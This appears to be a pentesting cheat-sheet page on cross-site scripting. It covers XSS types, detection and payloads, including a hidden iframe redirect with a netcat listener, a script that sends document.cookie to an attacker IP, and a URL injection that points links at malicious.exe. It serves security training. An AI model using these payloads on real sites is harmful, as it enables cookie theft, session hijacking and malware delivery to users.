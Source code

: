 # XSS

> Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.

```bash
#The famous test script:
<script>alert('test')</script>
```

## Types of XSS

**Applications should sanitize all user inputs. Else, we can try to execute code.**

### Stored XSS:

Persistent XSS stored in a database. Every user who access the vulnerable page will receive the payload. Examples are: Forums and comment sections.

### Reflected XSS:

The payload is included in the URL. It only affects people accessing the malicious link. Example: Search bars.

### DOM-Based XSS:

Where content of an input is used to change something in the page. Example: Changing the background input.

_____

## Detecting XSS

In a persistent XSS, where we insert some input that will be stored in a database (like a forum or a comment section), we can try to add special characters in order to test how the application threats those characters.

For example, inserting the following in a comment section:

```bash
< > ; ""
```

If we inspect the results in the browser developer console and we see that these characters are not encoded, it's likely that the page is vulnerable to XSS.

_____

## Redirecting with XSS

Once we identify an XSS vulnerability, we can insert an invisible iframe in the page in order to redirect the client to our location.

```JavaScript
//Setup listener in attacker machine:
nc -nlvp $PORT
//Invisilble iframe to inject in the vulnerable page:
<iframe scr=$URL height="0" width="0"></iframe>
```

_____

## Stealing Cookies

If HttpOnly (deny JavaScript access cookies) cookie flag is not set, we can modify the payload to hijack user cookies (we should review other browser security controls, not only HttpOnly):

```JavaScript
<script>new Image().src="http://$IPADDRESS/image.jpg?output="+document.cookie;</script>
```

_____

## Download Malware

This will cause the user, clicking on the link supplied by the tester, to download the file malicious.exe from a site they control.

```bash
http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");AllLinks[0].href = "http://badexample.com/malicious.exe";}</script>
```

_____

## BeEF
> BeEF allows the professional penetration tester to assess the actual security posture of a target environment by using client-side attack vectors.

_____

## Evasion Techniques

The [XSS Filter Evasion Cheat Sheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet) documents common filter evasion tests.
